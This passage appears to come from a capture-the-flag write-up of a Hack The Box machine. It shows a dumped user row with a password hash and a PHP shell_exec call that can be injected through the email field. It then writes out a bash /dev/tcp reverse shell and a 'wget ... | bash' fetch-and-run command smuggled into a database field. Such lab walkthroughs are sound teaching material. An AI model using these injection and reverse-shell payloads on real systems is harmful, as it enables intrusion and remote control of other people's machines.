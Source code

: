 ```bash
+-----+---------------+---------------------+---------------------+------------------------------------------------------------------+--------------------------------------------------------------+---------------------+---------------------+-----------+
| 701 | Juliana Thiel | juliana@snippet.htb | 2022-01-02 20:15:32 | ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f | ogRS7mYef6bK1KDFu0Svdm1C3AwnpBFhiWKRaMV92ubm4nmMmAIcoJRVhcUF | 2022-01-02 20:15:37 | 2022-06-20 11:46:35 | Manager   |
+-----+---------------+---------------------+---------------------+------------------------------------------------------------------+--------------------------------------------------------------+---------------------+---------------------+-----------+
```


### Step 2
Logging in as `juliana@snippet.htb` it doesn't seem like anything special happened. The only new feature we have is to _"Show all"_ snippets, that including private ones:
![[/assets/images/htb-writeup-extension/extension09.png]]

And this _"Validate"_ button for all the users:
![[/assets/images/htb-writeup-extension/extension10.png]]

Pressing _Validate_ will send a post request to validate the email of the user, and we'll get the response _"Mail is valid!"_. 

Playing around in MySQL I tried to change email of _Kaleigh Lehner_ and noticed that entering `;`, `&` or `|` still registered as valid email. 
Instead of guessing I decide to look in to the source code to see how this function works and find this:
```php
jean@extension:~/projects/laravel-app/app/Http/Controllers$ cat AdminController.php
[... snip ...]
} else {
	$res = shell_exec("ping -c1 -W1 $domain > /dev/null && echo 'Mail is valid!' || echo 'Mail is not valid!'");
	return Redirect::back()->with('message', trim($res));
}

```

The input data isn't sanitized since we can write directly into the MySQL database and from the vulnerable `shell_exec` function get command injection.

```bash
MySQL [webapp]> update users set email = "&id&" where users.id = 895;
Query OK, 1 row affected (0.035 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Press _"VALIDATE"_ to execute command:
![[/assets/images/htb-writeup-extension/extension11.png]]

Setup a reverse shell payload to get foothold on the docker container:
```bash
➜  extension echo "bash -i >& /dev/tcp/10.10.14.10/4488 0>&1" > rev.sh
➜  extension chmod +x rev.sh 
➜  extension python3 -m http.server 80

MySQL [webapp]> update users set email = "&wget -qO- http://10.10.14.10/rev.sh | bash&" where users.id = 895;
Query OK, 1 row affected (0.033 sec)
Rows matched: 1  Changed: 1  Warnings: 0

## PRESS 'VALIDATE'

10.10.11.171 - - [11/Sep/2022 18:31:18] "GET /rev.sh HTTP/1.1" 200 -

```
